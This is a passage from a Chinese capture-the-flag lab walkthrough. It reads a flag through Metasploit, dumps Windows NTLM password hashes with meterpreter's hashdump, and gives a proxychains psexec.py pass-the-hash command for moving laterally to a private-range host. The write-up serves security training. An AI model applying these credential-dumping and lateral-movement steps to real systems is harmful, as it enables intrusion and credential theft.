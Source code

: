 先用msf读个flag

![image-20250327163640978](../assets/image-20250327163640978-1748854959640-7.png)

```
  __ _              ___  __
 / _| |            / _ \/_ |
| |_| | __ _  __ _| | | || |
|  _| |/ _` |/ _` | | | || |
| | | | (_| | (_| | |_| || |
|_| |_|\__,_|\__, |\___/ |_|
              __/ |
             |___/


flag02: flag{2e191985-3660-4b3a-b1c5-01be8b41c15e}
```

也可以用hashdump拿到哈希

```
meterpreter > hashdump
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e52d03e9b939997401466a0ec5a9cbc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
```

拿到hash可以用psexec横向移动

![image-20250327164733287](../assets/image-20250327164733287-1748854959640-8.png)

```
proxychains4 python psexec.py administrator@172.22.15.24 -hashes ':0e52d03e9b939997401466a0ec5a9cbc' -codec gbk
```

![image-20250327165008127](../assets/image-20250327165008127-1748854959640-15.png)

接着读flag



### FLAG3-RDBC

接着看 172.22.15.24

访问 /www/sys/index.php

![image-20250331124309633](../assets/image-20250331124309633-1748854959640-9.png)
